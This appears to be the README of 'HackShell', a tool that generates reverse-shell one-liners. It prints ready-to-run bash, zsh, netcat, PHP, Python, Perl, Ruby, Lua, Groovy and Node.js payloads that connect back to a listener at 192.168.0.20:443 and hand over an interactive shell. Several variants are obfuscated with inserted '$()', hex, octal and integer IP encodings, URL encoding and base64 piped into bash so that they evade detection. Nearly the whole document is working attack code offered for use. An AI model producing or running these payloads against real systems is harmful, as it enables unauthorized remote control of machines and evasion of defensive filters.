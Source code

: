 # HackShell - Generator of some different reverse shells:
```
usage: python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type hex

.------..------..------..------..------..------..------..------..------.
|H.--. ||A.--. ||C.--. ||K.--. ||S.--. ||H.--. ||E.--. ||L.--. ||L.--. |
| :/\: || (\/) || :/\: || :/\: || :/\: || :/\: || (\/) || :/\: || :/\: |
| (__) || :\/: || :\/: || :\/: || :\/: || (__) || :\/: || (__) || (__) |
| '--'H|| '--'A|| '--'C|| '--'K|| '--'S|| '--'H|| '--'E|| '--'L|| '--'L|
`------'`------'`------'`------'`------'`------'`------'`------'`------'

optional arguments:
  -h, --help         show this help message and exit
  --payload PAYLOAD  bash,zsh,nc,php,python,perl,ruby,lua,groovy,nodejs,all
  --lhost LHOST      ip
  --lport LPORT      port
  --type TYPE        b64,urle,int,octa,hex,jlre,funf
```
#### e.g.

--- 

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443
`

---

```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

---

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex
`

---

```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

---

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa
`

---

```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

---

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long
`

---

```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

---

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type jlre
`

---

```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```

---

`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64
`

---

```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```

---

`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`

---
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```
---
`
python hackshell.py --payload all --lhost 192.168.0.20 --lport 443
`  

---

-> bash  
```
ba$()sh -$()i '/dev/tcp/192.168.0.20/443 0>&1'
```
-> zsh  
```
zsh -c 'zmodload zsh/net/tcp && ztcp192.168.0.20443&& zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```
-> nc  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|n$()c 192.168.0.20 443 >/tmp/f
```
-> php  
```
ph$()p -$()r '$sock=fsockopen("192.168.0.20",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
-> python  
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
-> perl  
```
pe$()rl -$()e 'use Socket;$i="192.168.0.20";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
-> ruby  
```
ru$()by -rsocket -$()e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.0.20",443))'
```
-> lua  
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('"192.168.0.20"','443');os.execute('sh -i <&3 >&3 2>&3');"     
```
-> groovy  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.20/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
-> nodejs  
```
require('child_process').exec('nc -e sh 192.168.0.20 443')
```
